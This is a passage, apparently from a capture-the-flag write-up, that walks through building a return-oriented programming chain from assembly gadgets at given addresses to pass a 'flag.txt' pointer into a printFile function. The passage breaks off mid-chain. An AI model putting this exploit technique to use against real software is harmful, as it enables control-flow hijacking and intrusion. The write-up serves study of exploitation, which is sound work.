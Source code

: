 ```asm
push   rsp
and    al, 0x18
mov    QWORD PTR [rsp+0x10], r8
call   rax
```

This gadget actually constrains the gadget we can follow it with quite a bit.
The `and` instruction means that the least significant byte of `rax` must equal
`0x18` in order for the address to be preserved. Based on the discussion above,
the next gadget must also contain at least two `pop` instructions. On this basis
I picked the following gadget found at address `0x41aa18`:

```asm
mov    eax, 0xffffffff
pop    rbx
pop    rbp
ret
```

Once this gadget finishes executing, the original value of `rsp` will be held by
`rbp`. We now have to figure out how to get this value into `rdi` using one of
the strategies above. We also need to account for the difference between this
value of `rsp` and the the location of the buffer, as these won't be the same
address. This latter requirement can be achieved via either a `sub` or a `lea`
instruction. I identified the following gadget to do this at address `0x431e83`:

```asm
lea    rax, [rax+rdi*1+0x20]
ret
```

This will add `rax`, `rdi` and `0x20` together and put the result in `rax`. This
means we need to get our value of `rsp` into either `rax` or `rdi`. The latter
seems the obvious choice, but I couldn't find a decent gadget to achieve this,
so I went with the following at address `0x491652`:

```asm
mov    rax, rbp
pop    rbx
pop    rbp
ret
```

We also need a way to control the value in `rdi`. I used a gadget at `0x401a72`
to achieve this:

```asm
pop    rdi
ret
```

At this point we should have a pointer to `"flag.txt"` in `rax`, so now we just
need to move that pointer into `rdi` and call `printFile`. I found the following
two gadgets to achieve this, at addresses `0x456805` and `0x458224`,
respectively:

```asm
push   rax
pop    rbx
pop    rbp
pop    r12
pop    r13
pop    r14
ret
```
